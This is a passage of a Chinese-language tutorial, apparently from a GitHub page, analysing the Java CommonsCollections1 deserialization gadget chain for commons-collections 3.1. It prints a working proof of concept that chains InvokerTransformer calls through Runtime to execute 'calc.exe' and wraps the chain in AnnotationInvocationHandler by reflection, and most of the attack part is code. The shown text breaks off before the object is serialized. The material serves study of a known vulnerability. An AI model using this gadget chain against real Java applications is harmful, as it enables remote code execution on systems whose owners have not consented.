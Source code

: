 ```java
    e.printStackTrace();
}
```

此时,我们虽然得到了outerMap的序列化对象,但是当其被反序列化时,如果readObject方法中没有进行outerMap.put或者它调用transformerChain.transform(value)的操作,其也不可能触发反序列化漏洞

### CommonCollections1

* CommonCollections1的依赖为commons-collections:3.1

```xml
<dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>
```

* 对于java版本的要求是8u71以前，下文版本为8u66

#### 对于利用链的大致梳理

先把最终的poc代码展示一下，后面分析如何一步步改进得到该poc

```java
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();

        // new
        innerMap.put("value", "xxxx");
        // new

        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);

        // delete
        // outerMap.put("test", "xxxx");
        // delete

        // new
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);
```